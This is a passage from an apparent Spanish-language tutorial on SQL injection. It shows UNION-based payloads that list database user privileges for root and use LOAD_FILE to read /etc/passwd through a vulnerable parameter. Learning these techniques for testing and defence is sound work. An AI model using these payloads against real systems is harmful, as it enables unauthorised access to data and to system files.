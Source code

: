 Como vemos devuelve Y, lo que significa yes, si se tienen privilegios de administrador.

También podemos extraer otros privilegios directamente desde el esquema.

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Al que podemos añadir `WHERE grantee="'root'@'localhost'"` para que sea solo del usuario que somos en este caso.

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

![image](/assets/img/posts/sql-injection/20251013165612.png)


##### LOAD_FILE

La función LOAD_FILE() se puede utilizar en MariaDB / MySQL para leer datos de archivos. 
La función solo admite un argumento, que es el nombre del archivo. 

```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
